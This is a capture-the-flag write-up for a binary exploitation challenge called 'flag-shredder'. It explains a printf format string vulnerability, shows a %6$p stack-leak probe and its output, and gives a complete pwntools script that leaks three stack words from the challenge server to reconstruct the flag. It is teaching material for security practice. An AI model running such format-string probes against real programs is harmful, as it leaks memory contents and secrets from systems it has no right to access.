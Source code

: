 # pwn-2: flag-shredder

<img src="images/pwn-2.jpg"></img>

## Prompt 

The **Ministry of Truth** provides you the attached linux binary to exploit. It is also running on a remote server where it protects the truth in a file called flag.txt. Capture the flag from the remote server.  Big brother grants you the following code to connect to the remote server.

```python
from pwn import * 
p=remote("bigbrother-pwn-2.chals.io", 443, ssl=True, sni="bigbrother-pwn-2.chals.io")
p.interactive()
```


## Solution

The problem suffers a format string vulnerability, where the program passes user-defined input directly to printf() without a format specifier. We can take advantage of this vulnerability to leak the contents of the stack. 

We can request the 6th offset of the stack to be displayed as a pointer by sending ``%6$p``.

```
--------------------------------------------------------------------------------
So many thought criminal flags to shred, will you help >>>  

$ %6$p
<<< Response not understood. Thought police heard you say: 
0x61777b6674636262
```

Examining this by converting the hex to ascii and reversing the byte order, we see this is the beginning of the flag.

```
 unhex 61777b6674636262 | rev
bbctf{wa
```

We can then automate the process using a [pwntools](https://docs.pwntools.com/en/stable/) script to bring back the remaining 16 bytes of the flag. 

```python
from pwn import *
from binascii import unhexlify

p=remote("bigbrother-pwn-2.chals.io", 443, ssl=True, sni="bigbrother-pwn-2.chals.io")
p.sendlineafter(b' >>>', b'%6$p.%7$p.%8$p')

p.recvuntil(b'heard you say:')
p.recvline()

leak = p.recvline().replace(b'0x',b'').strip(b'\n').split(b'.')

flag = (unhexlify(leak[0])[::-1])
flag += (unhexlify(leak[1])[::-1])
flag += (unhexlify(leak[2])[::-1])[0:3]

print("Flag: %s" %flag)

```
